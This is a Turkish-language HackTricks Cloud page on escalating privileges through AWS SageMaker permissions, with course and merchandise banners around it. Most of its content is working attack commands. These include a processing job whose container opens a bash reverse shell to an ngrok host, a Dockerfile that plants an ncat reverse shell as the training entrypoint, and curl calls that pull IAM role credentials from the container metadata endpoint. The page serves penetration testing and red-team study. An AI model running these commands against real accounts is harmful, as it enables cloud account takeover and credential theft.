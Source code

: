 # AWS - Sagemaker Yetki Yükseltme

## AWS - Sagemaker Yetki Yükseltme

<details>

<summary><strong>Sıfırdan kahraman olana kadar AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAM Rolüne erişim sağlamak için ekli olan bir not defteri oluşturmaya başlayın:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
```html
<p>Yanıt, yeni oluşturulan notebook örneğinin ARN'sini içeren bir `NotebookInstanceArn` alanını içermelidir. Daha sonra, hazır olduğunda notebook örneğine erişmek için kullanabileceğimiz bir URL oluşturmak için `create-presigned-notebook-instance-url` API'sini kullanabiliriz:</p>
```
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Tarayıcıda URL'ye gidin ve sağ üst köşede `Open JupyterLab`e tıklayın, ardından "Launcher" sekmesine gidin ve "Diğer" bölümünde "Terminal" düğmesine tıklayın.

Şimdi IAM Rolünün meta veri kimlik bilgilerine erişmek mümkün hale geldi.

**Potansiyel Etki:** Belirtilen sagemaker hizmet rolüne yükselme.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Eğer üzerinde çalışan Jupyter **defterleri zaten varsa** ve bunları `sagemaker:ListNotebookInstances` ile listeleyebilirsiniz (veya başka bir şekilde keşfedebilirsiniz). **Onlar için bir URL oluşturabilir, erişebilir ve önceki teknikte belirtildiği gibi kimlik bilgilerini çalabilirsiniz**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potansiyel Etki:** Sagemaker hizmet rolüne ayrıcalık yükseltme.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Bu izinlere sahip bir saldırgan, sagemaker'ın bir işlem jobunu sagemaker rolü ile çalıştırmasını sağlayabilir. Saldırgan, çalıştırılacak olan konteynerin tanımını belirtebilir ve bir IAM role ait kimlik bilgilerini çalabilir.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potansiyel Etki:** Belirtilen sagemaker hizmet rolüne ayrıcalık yükseltme.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Bu izinlere sahip bir saldırgan, bir eğitim işlemi oluşturabilecek ve üzerine bir rol eklenmiş bir **keyfi konteyneri çalıştırabilecektir**. Dolayısıyla, saldırgan rolün kimlik bilgilerini çalabilecektir.

{% hint style="warning" %}
Bu senaryoyu öncekine göre daha zor sömürmek çünkü saldırganın kimliğine doğrudan rev shell veya kimlik bilgileri gönderecek bir Docker imajı oluşturmanız gerekmektedir (eğitim işlemi yapılandırmasında başlangıç komutunu belirtemezsiniz).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potansiyel Etki:** Belirtilen sagemaker hizmet rolüne ayrıcalık yükseltme.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Bu izinlere sahip bir saldırgan (potansiyel olarak) bir **hiperparametre eğitim işi** oluşturabilir, üzerinde **bağlı bir rol ile** birlikte **keyfi bir konteyner çalıştırabilir**.\
_Zaman eksikliği nedeniyle henüz sömürülmüş değil, ancak önceki sömürülerle benzer görünüyor, sömürü ayrıntıları ile bir PR göndermekten çekinmeyin._

## Referanslar

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Sıfırdan kahraman olana kadar AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'ı takip edin.
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
